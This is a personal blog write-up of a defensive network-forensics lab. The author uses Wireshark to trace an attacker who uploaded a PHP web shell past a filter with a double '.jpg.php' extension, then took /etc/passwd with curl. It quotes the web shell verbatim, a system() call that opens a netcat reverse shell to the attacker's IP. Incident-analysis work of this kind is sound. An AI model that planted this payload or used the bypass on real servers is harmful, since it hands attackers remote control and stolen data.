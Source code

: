 ```yaml
---
layout: post
title: "Web Strike"
author: "Nicholas Coleman"
date: 2025-03-05
tags: cyberdefenders
---
```

### a vulnerable web server
#### the task
*A suspicious file was identified on a company web server, raising alarms within the intranet. The Development team flagged the anomaly, suspecting potential malicious activity. To address the issue, the network team captured critical network traffic and prepared a PCAP file for review.*  
*Your task is to analyze the provided PCAP file to uncover how the file appeared and determine the extent of any unauthorized activity.*

#### Pt. 1
Tasked with finding out what exactly happened that flagged the anomaly, my first goal was to find out where this unauthorized activity was coming from. Going through the packet capture, I noticed that the source IP address, belonging to the potential threat actor, was 117.11.88.124. Using an online IP geolocation service, I was able to quickly find out that this IP was located in Tianjin, China.

![the IP location](/security.github.io/images/ip_geolocation.png)

Although the IP address belonging to someone in China was already a bit suspicious, I needed more evidence of it being malicious. My next plan of action? To find out the User-Agent associated with this address. Since attackers often spoof User-Agent strings to mask the tools they use as legitimate browsers/applications, finding the User-Agent string was imperative.

Since I was already in Wireshark, that wouldn't be too difficult. All that needs to be done is to inspect a captured HTTP GET request. Easily done by following an HTTP stream.

`*Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0*`

It looks like the attacker was using a Linux-based Firefox browser, which could help him blend in with the rest of the traffic. This is valuable information, because it can help detect future attempts easily.

Next, I needed to see if the attacker exploited any vulnerabilities on the company web server. They most likely uploaded malicious code to allow themselves remote control over the server. This is otherwise known as the *web shell*. 

To do that, I needed to isolate all of the HTTP POST requests coming from the attacker's IP address. 

`ip.src == 117.11.88.124 and http.request.method == "POST"`

![The first attempt](/security.github.io/images/fail_attempt_1.png)

Here the attacker is trying to upload a malicious script, innocently named, "image.php". 

Attackers will often name malicious files with innocuous names, so as to avoid suspicion. But the very fact that a mysterious IP address is attempting to inject a PHP script into the company web server is enough by itself.

![Part 2](/security.github.io/images/fail_attempt_2.png)

See their IP address nestled in that PHP script? That alone is suspicious, and supported my conclusion that the attacker was trying to establish a reverse shell. Clearly, they are with the `system` function. It seems this first attempt was a failure however. The company web server's filters were able to stop the malicious file from executing. 

![sucess](/security.github.io/images/attack_success.png)

The second attempt was successful though, and the malicious PHP file was uploaded succesfully. It was able to bypass the server's filtering, most likely because the attacker tricked the filtering mechanism by adding a .jpg extension before the .php extension. This effectively made the server bug out, because it read the .jpg extension first, and probably assumed it was just an innocent photo. 

Well, it wasn't. The input validation mechanism of this server should definitely be updated! A vulnerability like this could end up being catastrophic. 

---

#### Pt. 2

My next step was to identify the web server's directory that is used for storing uploaded files. This is crucial to locating the malicious upload, and locating the vulnerable page. To do that, I would have to find the URI identifying that directory. So I entered the following:

`http.request.uri contains "image.jpg.php"`

From there I found out the web server uses the directory: /reviews/uploads/ for storing uploaded files. At this point, mentioning this vulnerability would be my priority in the real world, and as an entry-level analyst I would most likely escalate this issue. Escalation makes sense because the attacker is exploiting important server infrastructure. 

Finding the port used by the attacker was also simple. It is located within the content of the uploaded web shell file. 

`<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>`

By examining the content of this file, I was able to notice this part: *nc 117.11.88.124 8080*. This reveals to me that the attacker was using netcat (nc) to attempt to establish a connection back to the attacker's system, while using port 8080. 

This information is vital when investigating a breach such as this one. Finding the port number helps in identifying the attacker's method as well as help in configuring the firewall/IDS systems to block 8080 connections in the future, if they are unneeded. 

My last step involves finding out the exact name of the file that the attacker attempted to exfiltrate. To do that, I entered a query in that would isolate data being sent from the victim web server using port 8080 (the same port the attacker was using). 

`(tcp.port == 8080) && (ip.src == 24.49.63.79)`

![curl evidence](/security.github.io/images/curl_evidence.png)

I was quickly able to find that the attacker used curl to attempt to exfiltrate etc/passwd. Obviously, that is a critical file, as it contains information on all system users. Nowadays, passwords are stored in shadow files, so the passwords are going to be safe. But in terms of value, etc/passwd is extremely useful for attackers. 

It can help them map the network out, and give them knowledge as to areas they can exploit. It is extremely valuable recon intel. 

---
#### Summary

With that, I was finished with the task at hand. This was a fun lab! Using Wireshark to figure out exactly what happened is almost like being a digital detective. It feels like a puzzle waiting to be solved. Although at times it can be frustrating, the process does feel intuitive after a while. 

Here are my findings in a concise 5W format. 

1. WHO: `117.11.88.124` (located in Tianjin, China)
2. WHERE: Vulnerable web server, using Port 8080
3. WHEN: Thu, 30 Nov 2023 18:44:19 GMT
4. WHAT: Malicious php script uploaded on web server
5. WHY: For the purpose of exfiltrating etc/passwd 

Thank you for reading through my first blog post! More will be coming shortly. I will try and upload most of the labs I work on, if they are in anyway interesting. 
